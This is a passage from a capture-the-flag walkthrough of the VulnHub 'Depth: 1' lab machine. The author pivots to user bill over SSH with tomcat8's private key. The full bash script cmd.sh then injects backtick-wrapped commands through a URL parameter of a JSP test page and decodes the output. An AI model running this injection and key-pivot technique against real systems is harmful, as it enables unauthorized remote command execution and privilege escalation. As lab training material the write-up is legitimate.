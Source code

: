 I take an educated guess, put two and two together, and gather that `tomcat8` probably has its public key listed in `/home/bill/.ssh/authorized_keys`. If that's the case, I should be able to log in to `bill`'s account via SSH in **localhost**. Well, let's find out and as Yoda put it, "**Do or do not. There's no try.**"

### Kill Bill: Vol. 1

I know one can execute a command upon login via SSH. But first, let's see if I can log in as `bill` with `tomcat8`'s private key.

![screenshot-6](/assets/images/posts/depth-1-walkthrough/screenshot-6.png)

Holy smoke. I'm able to execute remote commands and overcome the output display restrictions by adding my own placeholders.

With this in mind, I wrote `cmd.sh`, a script that displays the proper output from the commands as if `bill` is the one executing in a shell.

<div class="filename"><span>cmd.sh</span></div>
```bash
#!/bin/bash

_HOST=192.168.100.4
_PORT=8080
_TEST=test.jsp
_PATH=path
__KEY=/usr/share/tomcat8/.ssh/id_rsa
__SSH="ssh -i $__KEY bill@localhost"
__SEQ="echo 0 1 2 3 4 5 6 7"
__CMD="$__SSH sh -c '$__SEQ XXX$1 | base64XXX' "

urlencode() {
    old_lc_collate=$LC_COLLATE
    LC_COLLATE=C

    local length="${#1}"
    for (( i = 0; i < length; i++ )); do
        local c="${1:i:1}"
        case $c in
            [a-zA-Z0-9.~_-]) printf "$c" ;;
            *) printf '%%%02X' "'$c" ;;
        esac
    done

    LC_COLLATE=$old_lc_collate
}

CMD=$(urlencode "$__CMD")

curl -s $_HOST:$_PORT/$_TEST?$_PATH=${CMD//XXX/%60} \
| grep -P '^<td>' \
| sed -e '4!d' -e 's/^<td>//' -e 's/<\/td>$//' \
| tr ' ' '\n' \
| base64 -d
```


[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com